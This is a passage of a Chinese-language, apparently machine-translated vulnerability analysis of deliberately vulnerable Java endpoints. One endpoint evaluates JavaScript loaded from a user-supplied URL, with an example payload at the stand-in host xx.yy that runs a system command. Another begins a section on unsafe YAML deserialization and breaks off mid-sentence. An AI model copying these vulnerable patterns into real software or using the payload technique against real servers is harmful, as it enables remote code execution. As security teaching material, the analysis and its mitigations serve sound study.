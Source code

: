 - 该  
eval()方法用于执行从指定URL获取的JavaScript代码。  
  
**3.开发：**  
- 攻击者可以提供托管在受控 URL 上的恶意 JavaScript 文件，以在服务器上执行任意代码。  
  
- 在提供的示例中，curl  
 http://xx.yy/zz.js  
提供了有效负载来演示该漏洞。  
  
**4.有效负载分析：**  
- 有效负载表示托管于 的curl  
 http://xx.yy/zz.js文件 () 的 URL 。zz.jshttp://xx.yy  
  
- JavaScript 文件的内容包括一个  
mainOutput()调用 的函数  
java.lang.Runtime.getRuntime().exec("open -a Calculator");，该函数尝试在服务器上执行计算器应用程序。  
  
**5.缓解措施：**  
- 实施严格的输入验证，以确保参数中提供的   
jsurl指向受信任且预期的 JavaScript 文件。  
  
- 考虑使用白名单方法仅允许特定 URL 或域加载 JavaScript 文件。  
  
- 清理输入以防止任何意外或恶意代码执行。  
  
- 限制 Java 应用程序的权限，以最大限度地减少潜在漏洞的影响。  
  
**6.有效负载利用示例：**  
  
攻击者可以制作包含 JavaScript 代码的有效负载来：  
- 在服务器上执行任意系统命令。  
  
- 从服务器的文件系统读取敏感文件。  
  
- 修改或删除服务器上的文件。  
  
- 根据 Java 运行时环境的功能执行其他恶意活动。  
  
**三、YAML**  
  
Java 代码片段定义了一个  
/vuln/yarm接受 YAML 内容作为输入的 REST 端点。然后使用该类加载 YAML 内容  
Yaml，该类将 YAML 解析为 Java 对象。但是，由于不可信数据的反序列化，此代码容易受到远程代码执行 (RCE) 的攻击。  
```
@GetMapping("/vuln/yarm")
    public void yarm(String content) {
        Yaml y = new Yaml();
        y.load(content);
    }

```  
  
以下是对该代码及其利用方式的详细技术分析：  
  
**1.终点分析：**  
- 该端点  
/vuln/yarm是需要包含 YAML 数据的  
GET参数的端点。  
content  
  